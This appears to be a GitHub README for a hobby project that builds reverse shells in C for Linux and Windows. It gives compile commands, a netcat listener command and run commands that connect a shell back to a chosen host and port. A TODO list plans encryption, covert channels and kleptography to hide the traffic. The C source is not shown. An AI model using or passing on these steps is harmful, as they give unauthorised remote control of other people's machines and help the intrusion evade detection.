 # Concept

Making Reverse Shells in C for both OS's (Windows & Linux)


## Linux
### Compiling & Usage

```bash
# Compile it
gcc -o linux_rev_shell.elf linux_rev_shell.c

## Another system:
## set up a listener 
nc -nvlp -k 1234

## Set up env variables for easy execution in terminal
# Execute it, passing the env variables.
RP="1234" && RH="127.0.0.1" && BIN="/bin/sh"  && ./linux_rev_shell.elf $RP $RH $BIN

```

## Windows
### Compiling & Usage

```bash
# Compile it
i686-w64-mingw32-gcc -o windows_rev_shell.exe windows_rev_shell.c -lws2_32

## Another system:
## set up a listener 
nc -nvlp -k 1234

## Set up env variables for easy execution in terminal
# Execute it, passing the env variables.
windows_rev_shell.exe $IP $RP $BIN
```

## TODO for both OS
- [ ] debug (print outs, etc)
- [ ] more checks
- [ ] encryption
- [ ] LISTEN | CLIENT for both, so no need for NC and stuff.
- [ ] Implement Secure channels, including(but not lim. To)
    - [ ] Cryptography
    - [ ] Kleptography
    - [ ] Covert Channels
    - Like [This](https://embeddedsw.net/Cipher_Reference_Home.html) and [This](https://embeddedsw.net/libObfuscate_Cryptography_Home.html) (both `embeddedsw.net`)
